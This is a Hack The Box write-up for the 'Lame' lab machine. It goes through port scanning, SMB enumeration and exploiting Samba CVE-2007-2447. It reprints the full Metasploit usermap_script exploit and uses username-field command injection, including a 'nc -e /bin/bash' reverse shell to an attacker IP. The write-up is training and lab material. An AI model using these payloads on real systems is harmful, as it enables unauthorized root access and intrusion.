



# HTB - Lame

**IP Address:** `10.10.10.3`  
**OS:** Linux  
**Difficulty:** Easy  
**Tags:** #FTP, #vsftpd, #Samba, #SMB, #CVE-2007-2447, #Metasploit, #RCE

---
## Synopsis

Lame is an easy Linux machine and the very first box ever released on Hack The Box.  
The exploitation path focuses on identifying and leveraging a remote code execution (RCE) vulnerability in the Samba service to obtain direct root access without requiring privilege escalation.

---
## Skills Required

- Basic Linux enumeration knowledge  
- Familiarity with `nmap`, `ftp`, and `smbclient`  
- Understanding of common remote code execution vulnerabilities  

## Skills Learned

- Identifying vulnerable service versions  
- Exploiting **Samba** with the `username map script` RCE (CVE-2007-2447)  
- Establishing a reverse shell from an SMB service  

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.10.10.3
```


The host responds, confirming it is reachable.

---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.3 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```


---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p21,22,139,445,3632 10.10.10.3 -oN targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  


**Findings:**

| Port | Service | Version                     |
|------|---------|-----------------------------|
| 21   | FTP     | vsftpd 2.3.4 (anonymous login allowed) |
| 22   | SSH     | OpenSSH 4.7p1 Debian 8ubuntu1 |
| 139  | SMB     | Samba smbd 3.X - 4.X         |
| 445  | SMB     | Samba smbd 3.0.20-Debian     |
| 3632 | distccd | distccd v1 (GNU 4.2.4)       |

---
## 2. Service Enumeration

### 2.1 FTP Enumeration

The FTP service allows **anonymous login**:

```bash
ftp 10.10.10.3
```


The server accepts:
- **User:** `anonymous`
- **Password:** *(empty)*


No files of interest are available for download.  
However, the version `vsftpd 2.3.4` is known to be backdoored (**CVE-2011-2523**).

#### Exploit Attempt (Unsuccessful)

Search on Metasploit to check if there is any vulnerability for `vsftpd 2.3.4`:


Using Metasploit’s `vsftpd_234_backdoor` module:

```bash
msfconsole
search vsftpd_234
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.10.3
run
```


The exploit completes but fails to yield a shell, so we proceed to investigate other services.

---
### 2.2 SMB Enumeration

We check available SMB shares using unauthenticated (null session) access:

```bash
smbclient -L 10.10.10.3 -N
```


The `tmp` share is writable and accessible without authentication:

```bash
smbclient //10.10.10.3/tmp -N
```


---
## 3. Foothold

The Samba version `3.0.20-Debian` is vulnerable to the **username map script** command execution vulnerability (CVE-2007-2447).  

> **Vulnerability Overview:**  
> This flaw allows remote attackers to execute arbitrary shell commands without authentication by specifying a username containing shell metacharacters. It occurs when the `username map script` option is enabled in `smb.conf`.  

### 3.1 Identifying the Exploit

Search on Metasploit for Samba exploit modules:




---
### 3.2 Exploitation with Metasploit

Launch Metasploit and configure the module:

```bash
msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set LHOST <Your_Tun0_IP>
set LPORT 4444
run
```


A reverse shell is obtained **directly as root**.

To upgrade to a fully interactive TTY, execute the following commands:

```bash
script /dev/null -c bash
# Press Ctrl + Z
stty raw -echo; fg
reset xterm
```


---
### 3.3 Understanding and Manually Exploiting the Samba Vulnerability

For manual exploitation, we download the exploit locally:

```bash
searchsploit "Samba 3.0.20"
searchsploit -m unix/remote/16320.rb
```


The file contains:
```ruby
##
# $Id: usermap_script.rb 10040 2010-08-18 17:24:46Z jduck $
##
##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/framework/
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
    Rank = ExcellentRanking

    include Msf::Exploit::Remote::SMB

    # For our customized version of session_setup_ntlmv1
    CONST = Rex::Proto::SMB::Constants
    CRYPT = Rex::Proto::SMB::Crypt

    def initialize(info = {})
        super(update_info(info,
            'Name'           => 'Samba "username map script" Command Execution',
             'Description'    => %q{
                     This module exploits a command execution vulerability in Samba
                 versions 3.0.20 through 3.0.25rc3 when using the non-default
                 "username map script" configuration option. By specifying a username
                 containing shell meta characters, attackers can execute arbitrary
                 commands.
 
                 No authentication is needed to exploit this vulnerability since
                 this option is used to map usernames prior to authentication!
             },
             'Author'         => [ 'jduck' ],
             'License'        => MSF_LICENSE,
             'Version'        => '$Revision: 10040 $',
             'References'     =>
                 [
                     [ 'CVE', '2007-2447' ],
                     [ 'OSVDB', '34700' ],
                     [ 'BID', '23972' ],
                     [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
                     [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
                 ],
             'Platform'       => ['unix'],
             'Arch'           => ARCH_CMD,
             'Privileged'     => true, # root or nobody user
             'Payload'        =>
                 {
                     'Space'    => 1024,
                     'DisableNops' => true,
                     'Compat'      =>
                         {
                             'PayloadType' => 'cmd',
                             # *_perl and *_ruby work if they are installed
                             # mileage may vary from system to system..
                         }
                 },
             'Targets'        =>
                 [
                     [ "Automatic", { } ]
                 ],
             'DefaultTarget'  => 0,
             'DisclosureDate' => 'May 14 2007'))
 
         register_options(
             [
                 Opt::RPORT(139)
             ], self.class)
     end
 
 
     def exploit
 
         connect
 
         # lol?
         username = "/=`nohup " + payload.encoded + "`"
         begin
             simple.client.negotiate(false)
             simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
         rescue ::Timeout::Error, XCEPT::LoginError
             # nothing, it either worked or it didn't ;)
         end
 
         handler
     end
 
 end
```

The payload location in the code is:
```
username = "/=`nohup " + payload.encoded + "`"
```

To test it, we can send a ping to our machine. First, open port 443 to listen with Netcat:

```bash
nc -lvnp 443
```

Then execute:

```bash
logon "/=`nohup ping -c 1 10.10.10.3 | nc 10.10.14.3 443`"
```



We receive a ping in our terminal, so let’s execute the exploit manually by modifying the payload to open a reverse shell:

```bash
logon "/=`nohup nc -e /bin/bash 10.10.14.3 443`"
```

Once connected, confirm root access:

```bash
whoami
```


---
## 4. Post-Exploitation (Automatic exploitation continuation)

Retrieve the **user flag**:

```bash
cat /home/makis/user.txt
```


Retrieve the **root flag**:

```bash
cat /root/root.txt
```


✅ **Machine pwned directly as root** — no privilege escalation required.

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Port Scanning** → Identified SMB `3.0.20-Debian` and FTP `vsftpd 2.3.4`.  
2. **FTP Backdoor Check** → Attempted CVE-2011-2523 (failed).  
3. **SMB Enumeration** → Found writable `tmp` share.  
4. **Samba RCE** → Exploited CVE-2007-2447 via Metasploit for direct root shell.

---
## Defensive Recommendations

- **Update Samba**: Patch to the latest stable release to remove the `username map script` RCE vulnerability.  
- **Restrict SMB Access**: Disable anonymous logins and limit writable shares.  
- **Remove Legacy Services**: If not required, disable SMBv1 and NetBIOS services.  
- **Segment Services**: Isolate high-risk services like FTP and SMB from public access.
